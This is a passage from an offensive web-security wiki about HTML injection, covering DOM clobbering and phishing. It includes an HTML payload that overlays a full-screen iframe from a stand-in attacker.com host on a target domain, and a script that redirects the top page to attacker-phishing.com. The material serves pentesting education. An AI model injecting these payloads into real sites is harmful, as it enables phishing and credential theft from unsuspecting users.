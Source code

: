 {% embed url="https://tib3rius.com/dom/" %}
Cheat sheet on DOM Clobbering payload for various types of properties
{% endembed %}

This can commonly be used to **overwrite existing functions** and crash them, or **pollute element properties** during HTML sanitization ([example of `parentNode`](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dom-Clobbering-issue) & [example of `attributes`](https://portswigger.net/web-security/dom-based/dom-clobbering#how-to-exploit-dom-clobbering-vulnerabilities)).

## Phishing

HTML is markup, so you can often use this to gain control over the page you are attacking in order to phish any users coming across it.

### Iframes

Combining an `<iframe>` with `<style>`, you can create a full-screen phishing page on the target domain, that may fool any user coming across it as the domain seems correct.

{% code title="Phishing " %}
```html
<iframe src="https://attacker.com"></iframe>
<style>
/* Make it take over the full screen, while still keeping a trusted address bar */
iframe {
    width: 100vw;
    height: 100vh;
    position: fixed;
    top: 0;
    left: 0;
    border: none;
}
</style>
```
{% endcode %}

Having your site iframes on a target also gives you a reference to it via `top`. Firstly, you can redirect the top-level page by setting its `location =`:

<pre class="language-html" data-title="Inside attacker&#x27;s frame"><code class="lang-html">&#x3C;script>
<strong>  top.location = "https://attacker-phishing.com"
</strong>&#x3C;/script>
</code></pre>

If your injection is stored, it can be pretty convincing to suddenly be brought to a phishing page of the same application while browsing said application.

It also allows you to trigger [`.postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) handlers for all kinds of exploitation. Read more details on the page below:

{% content-ref url="postmessage-exploitation.md" %}
[postmessage-exploitation.md](postmessage-exploitation.md)
{% endcontent-ref %}
